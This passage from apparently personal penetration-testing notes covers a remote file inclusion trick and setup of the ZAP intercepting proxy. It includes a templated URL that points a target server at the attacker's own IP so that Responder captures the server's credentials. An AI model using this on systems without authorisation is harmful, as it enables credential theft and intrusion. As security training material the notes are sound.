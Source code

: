 {% hint style="info" %}
**Note:** If you get an error in any port, put _off_ on the value of the service related to that port in the _Responder.conf_ file.
{% endhint %}

***

* Make Remote File Inclusion on the page

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>http://$url/$query?$value=//$myip/somefile
</strong></code></pre>

{% hint style="info" %}
If the process worked, we can see the server has caught the credentials
{% endhint %}

## <mark style="color:green;">ZAP</mark>

* Proxy utility to intercept network traffic
* Stands for Zed Attack Proxy

### <mark style="color:yellow;">**Features**</mark>

* **Contexts:** Delimit the scope of the scanning.
* **Spider:** Use spidering to get links in the code of a website.
* **Active scan:** Attacks the website to get more information.
* **Alerts:** Give vulnerabilities found on the website.
* **Sites:** Shows all the URLs spidered with their petitions and vulnerabilities.
* **History:** Shows petitions made to target sites.

### <mark style="color:yellow;">**Configuration**</mark>

**For configuring HTTP Proxy:**

* Install _SwitchyOmega_ extension.
* Configure server to _localhost_ and port to _8080_ and save changes.

**For configuring HTTPS Proxy:**

* Go to _options>Network>Server Certificates_ and save the certificate.
* Go to your browser settings, search for certificates, and import the downloaded certificate in the _Authorities_ section (If the browser doesn't have this tab just import it on the certificates section).
* Mark _Trust this CA to identify websites_ and save all.

### <mark style="color:yellow;">Utilities</mark>

* Go to the _adds-on_ tab, update all installed and from marketplace install_, Directory List 2.3, Directory List 2.3 LC, FuzzDB Files, FuzzDB Ofensive, python scripting, community scripts, custom payloads, JSON view, JWT support, viewstate_.
* Go to _options>HUD_ and unmark _Enable when using the ZAP desktop_ and _welcome screen when a browser is opened._

### <mark style="color:yellow;">Tips</mark>
